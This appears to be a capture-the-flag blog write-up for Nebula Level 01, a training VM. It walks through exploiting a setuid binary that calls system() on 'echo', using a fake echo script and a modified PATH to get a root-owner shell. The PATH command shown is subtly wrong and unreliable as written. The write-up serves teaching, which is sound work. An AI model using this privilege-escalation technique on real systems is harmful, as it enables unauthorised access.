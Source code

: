 ```yaml
---
layout: post
title: "Nebula Series - Level 01"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 01** introduces us to the concept of setuid and the dangers of trusting the user's environment
to invoke another executable from within our code.

<!--more-->

`setuid` and `setgid` are unix flags that allow us to
run an executable with the permissions of the executable's owner or group. Improperly designed setuid
executables can be used for privilege escalation.

Inspecting the `flag01` users home directory, we see a single executable named `/flag01`

We can check the permissions with

```shell
$ stat -c "%a" /home/flag01/flag01

4750
```

The leading 4 indicates that the setuid permission is
set.

Alternatively we can run `ls -l` and look for an 's' in the executable position of the user permissions.

```shell
$ ls -l /home/flag01

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
```

Here we also see that the owner is `flag01`.

To make things a little easier for us, we're also provided with the source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

We can see the application sets our *real* user id and group id using `setresgid` and `setresuid` to
our *effective* user id and group id which it gets with `getegid` and `geteuid`. Then it calls
"echo" using `system()`.

The question is, which `echo`? Well, we can influence that by modifying our path.

Let's create a new file named `echo` in our home directory with the following contents


```bash
#!/bin/bash

/bin/bash
```

Make sure it's executable with

```bash
$ chmod +x /home/level01/echo
```

Add our home directory to the front of our PATH so that our `echo` is the one that gets run

```bash
$ PATH=/home/$PATH
```

All that's left is to run the flag01 executable

```bash
$ /home/flag01/flag01
```

and we will be presented with a bash shell as the `flag01` user. To complete the level we use our escalated
privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- `setuid` executables run with the permissions of the owner
- `setgid` executables run with the permissions of the group
- these flags are ignored for interpreted executables
- `setuid/setgid` executables can be exploited if not designed carefully
- relying on the user's environment to run the intended executable using `system` is unsafe

